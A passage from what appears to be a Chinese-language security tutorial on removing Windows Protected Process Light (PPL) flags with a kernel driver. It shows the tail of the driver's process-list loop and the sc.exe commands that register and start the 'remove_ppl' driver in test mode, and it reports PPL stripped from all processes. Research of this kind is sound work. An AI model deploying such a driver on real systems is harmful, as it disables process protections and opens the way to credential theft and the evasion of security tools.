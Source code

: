```

        pInfo = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)pInfo + pInfo->NextEntryOffset);
    } while (pInfo->NextEntryOffset);

_LABEL_EXIT:
    if (Buffer != NULL) {
        ExFreePoolWithTag(Buffer, '1gaT');
    }
    return STATUS_SUCCESS;
}
```

成功编译后，将驱动程序注册为服务来启动运行(需设置主机为测试模式)：
```
# 注册驱动程序为服务
sc.exe create remove_ppl type= kernel start= demand binPath= [src]remove_ppl.sys
# 查看服务信息
sc.exe queryex remove_ppl
# 启动驱动程序/服务
sc.exe start remove_ppl
```

运行驱动程序，并使用 `Process Explorer` 查看，所有进程的 PPL 标识都被去除了：
<div align="center">
<img src="images/remove-all-ppl-by-tool.png" width="600">
</br>[10.使用工具批量去除PPL标识]
</div>
